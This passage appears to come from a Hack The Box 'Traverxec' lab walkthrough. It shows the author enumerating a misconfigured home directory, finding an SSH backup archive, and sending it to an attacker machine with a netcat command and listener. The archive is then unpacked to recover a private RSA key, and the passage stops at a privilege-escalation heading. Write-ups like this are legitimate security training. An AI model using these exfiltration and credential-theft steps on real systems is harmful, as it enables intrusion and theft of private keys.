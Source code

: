 
Here some guess work is required. Using *find* to look for the location of this public_www directory does not return any results, and perhaps this should give us a hint: maybe *find* can't find the directory because it doesn't have the necessary rights to access its parent directory, which might as well be /home as seen in the .conf file above.

In fact, we can confirm that the public_www folder exists within David's home folder:

```aaa
$ ls -la /home/david/public_www
ls -la /home/david/public_www
total 16
drwxr-xr-x 3 david david 4096 Oct 25 15:45 .
drwx--x--x 6 david david 4096 Apr  4 05:26 ..
-rw-r--r-- 1 david david  402 Oct 25 15:45 index.html
drwxr-xr-x 2 david david 4096 Oct 25 17:02 protected-file-area
```

Because of badly configured permissions we can access it despite it being located inside /home/david/ and find an important looking folder:

```aaa
$ ls -la /home/david/public_www/protected-file-area
ls -la /home/david/public_www/protected-file-area
total 16
drwxr-xr-x 2 david david 4096 Oct 25 17:02 .
drwxr-xr-x 3 david david 4096 Oct 25 15:45 ..
-rw-r--r-- 1 david david   45 Oct 25 15:46 .htaccess
-rw-r--r-- 1 david david 1915 Oct 25 17:02 backup-ssh-identity-files.tgz
```

Transfer the file to our machine to analyze it:

```aaa
$ nc -w 3 10.10.14.251 9999 < /home/david/public_www/protected-file-area/backup-ssh-identity-files.tgz
```

Receive and unpack the file, it contains a backup of David's .ssh folder:

```aaa
baud@kali:~/HTB/traverxec$ nc -lvnp 9999 > ssh-files.tgz
listening on [any] 9999 ...
connect to [10.10.14.251] from (UNKNOWN) [10.10.10.165] 60388
baud@kali:~/HTB/traverxec$ file ssh-files.tgz 
ssh-files.tgz: gzip compressed data, last modified: Fri Oct 25 21:02:59 2019, from Unix, original size modulo 2^32 10240
baud@kali:~/HTB/traverxec$ tar zxvf ssh-files.tgz 
home/david/.ssh/
home/david/.ssh/authorized_keys
home/david/.ssh/id_rsa
home/david/.ssh/id_rsa.pub
```

---

## Privilege escalation #1: SSH via cracked RSA backup key
Use the RSA key to login after changing permissions to it:

